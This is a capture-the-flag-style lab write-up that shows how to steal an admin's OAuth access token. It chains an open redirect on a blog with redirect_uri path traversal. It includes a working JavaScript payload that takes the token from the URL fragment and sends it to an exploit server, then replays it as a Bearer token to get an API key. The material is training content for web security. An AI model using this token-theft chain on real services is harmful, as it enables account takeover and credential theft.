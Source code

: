 # Stealing OAuth access tokens via an open redirect

**Date:** 09, August, 2021

**Author:** Dhilip Sanjay S

---
## Task 

- This lab uses an OAuth service to allow users to log in with their social media account.

- Flawed validation by the OAuth service makes it possible for an attacker to leak **access tokens** to arbitrary pages on the client application.

- To solve the lab, identify an open redirect on the blog website and use this to steal an access token for the admin user's account.

- Use the access token to obtain the **admin's API key** and submit the solution using the button provided in the lab banner.

- **Note:** You cannot access the admin's API key by simply logging in to their account on the client application.

- The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

- You can log in via your own social media account using the following credentials: `wiener:peter`.

---

## Solution

### API Key endpoint

- Before sending the payload to the admin, we need to find out the end point in the OAuth server which gives the API key.
- On capturing the requests in Burp, we can find that `/me` end point of the OAuth server gives the API key:

![API Key](../Images/Lab4-APIkey.png)


### Finding Open redirect

{% hint style="info" %}
**Note:** These can be tried to check Flawed Redirection URI.

1. Replace with the exploit server's URL.
    - Error: `redirect_uri_mismatch`

2. Add the exploit server's URL as the second `redirect_uri`:
    - Error: `redirect_uri parameter must not be provided twice`
{% endhint %}

- Check the blog posts for open redirection.
- On clicking next, there is an GET request made to `/post/next?path=/post?postId=8`.
- Replace the path variable to the exploit site: `/post/next?path=https://exploit-acae1f131edfaacd80c50e6001d800ff.web-security-academy.net/`

- We have an Open Redirect on the Blog site. 

### Delivering the exploit

- File at `/exploit/` endpoint. We need to extract eh token from the URL parameter.

```html
<script>
const urlSearchParams = new URLSearchParams(window.location.hash.substr(1));
const token = urlSearchParams.get('access_token');
if(token)
window.location='/?'+ token;
else{
window.location = "https://oauth-ac501fb51e75aa5a804f0e74022b0046.web-security-academy.net/auth?client_id=cp42ogp10dybhn65r1rl6&redirect_uri=https://ac461f041eeeaa2b80930e3b000b00f9.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-acae1f131edfaacd80c50e6001d800ff.web-security-academy.net/exploit&response_type=token&nonce=1909767560&scope=openid%20profile%20email"
}
</script>
```

{% hint style="info" %}
- Initially I tried with iframe and the script. But it didn't work. Only if the URL has access_token, then the conversion to `/?` must take place.
- Instead one can make use of ngrok.
{% endhint %}


### Access Token

- We get the access token in the logs of the exploit server.

![Access Token](../Images/Lab4-AccessToken.png)

### API Key

- Now in the OAuth flow - `/me` request, replace the **Bearer** token with admin's token.
- You'll get the API key. Submit it to solve the lab!

![API Key](../Images/Lab4-solved.png)